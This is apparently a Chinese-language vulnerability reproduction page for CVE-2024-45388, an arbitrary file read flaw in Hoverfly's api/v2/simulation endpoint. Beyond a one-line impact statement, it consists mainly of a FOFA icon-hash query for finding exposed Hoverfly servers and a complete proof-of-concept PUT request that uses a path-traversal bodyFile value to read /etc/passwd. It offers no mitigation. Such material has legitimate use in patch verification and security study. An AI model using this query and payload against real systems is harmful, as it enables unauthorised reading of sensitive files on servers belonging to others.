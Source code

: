 # Hoverfly系统接口simulation任意文件读取漏洞复现(CVE-2024-45388)

Hoverfly api/v2/simulation 接口存在任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```jade
icon_hash="1357234275"
```
![image](https://github.com/user-attachments/assets/ae48e5d7-1d13-46b8-8ded-760a2756fe47)
![image](https://github.com/user-attachments/assets/41c20767-b3b0-4044-bb21-d2cfa0f19441)


## poc

```javascript
PUT /api/v2/simulation HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
 
{"data":{"pairs":[{"request":{},"response":{"bodyFile": "../../../../../../../etc/passwd","x":"aaa"}} ]},"meta":{"schemaVersion":"v5.3"}}
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409101027771.png)

